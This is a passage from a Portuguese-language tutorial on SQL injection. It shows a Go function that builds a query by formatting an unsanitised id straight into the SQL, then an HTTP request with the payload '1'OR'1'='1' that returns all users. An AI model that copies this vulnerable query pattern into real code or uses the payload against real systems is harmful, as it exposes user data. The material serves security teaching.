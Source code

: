 `user_service.go`:

```go
  func GetUserInject(id string) ([]User, error) {
    query := fmt.Sprintf("SELECT id, name, email FROM users WHERE id = %s", id)
    rows, err := database.DBConnection.Query(query)
    if err != nil {
      return nil, err
    }
    defer rows.Close()

    var users []User
    for rows.Next() {
      var user User
      if err := rows.Scan(&user.ID, &user.Name, &user.Email); err != nil {
        return nil, err
      }
      users = append(users, user)
    }

    return users, nil
  }
```

No service executamos nossa query, passando o id diretamente `"SELECT id, name, email FROM users WHERE id = %s", id`, aqui está a vulnerabilidade estamos passando o id diretamente para a consulta, sem tratar antes.

Vamos fazer uma requisição usando a extensão do [HTTP Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) do vscode:

```http
GET http://localhost:8080/users?id=1 HTTP/1.1
content-type: application/json
```

Recebemos o retorno esperado:

```json
[
  {
    "id": 1,
    "name": "John Doe",
    "email": "john.doe@example.com"
  }
]
```

Agora, vamos injetar o sql:

```http
GET http://localhost:8080/users?id='1'OR'1'='1' HTTP/1.1
content-type: application/json
```

Recebemos todos os usuários:
